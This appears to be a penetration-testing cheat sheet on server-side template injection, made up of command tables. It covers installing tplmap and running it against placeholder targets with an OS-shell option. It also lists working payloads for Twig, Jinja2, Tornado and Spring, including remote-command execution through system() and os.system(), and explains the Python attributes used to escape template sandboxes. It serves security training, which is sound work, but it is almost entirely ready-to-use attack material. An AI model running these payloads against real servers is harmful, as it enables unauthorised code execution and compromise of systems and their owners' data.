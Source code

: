 ## SSTI Exploitation Example 1

|**Command**|**Description**|
|---|---|
|`git clone https://github.com/epinna/tplmap.git`|Cloning the tplmap repoistory|
|`cd tplmap`|Navigating to the new directory|
|`pip install virtualenv`|Installing the virtual environment with pip|
|`virtualenv -p python2 venv`|Creating a virtual environment named venv with python2|
|`source venv/bin/activate`|Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter|
|`pip install -r requirements.txt`|Installing dependencies|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`|Running tplmap against the target|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`|Running tplmap with the os-shell option|
|`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}`|Twig RCE payload|

## SSTI Exploitation Example 2

|**Command**|**Description**|
|---|---|
|`curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Spring payload)|
|`curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Twig payload)|
|`curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Jinja2 basic injection)|
|`curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Jinja2 dump all classes payload)|
|`curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Tornado payload)|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`|Automating the exploitation process with tplmap|

## SSTI Exploitation Example 3

|**Command**|**Description**|
|---|---|
|`curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"`|Interacting with the remote target (Confirming Jinja2 backend)|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'`|Automating the templating engine identification process with tplmap|
|`python3`|Starting the python3 interpreter|

| **Methods**      | **Description**                                                                                                                     |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| `__class__`      | Returns the object (class) to which the type belongs                                                                                |
| `__mro__`        | Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples.                       |
| `__subclasses__` | Each new class retains references to subclasses, and this method returns a list of references that are still available in the class |
| `__builtins__`   | Returns the builtin methods included in a function                                                                                  |
| `__globals__`    | A reference to a dictionary that contains global variables for a function                                                           |
| `__base__`       | Returns the base class inherited by the object                                                                                      |
| `__init__`       | Class initialization method                                                                                                         |

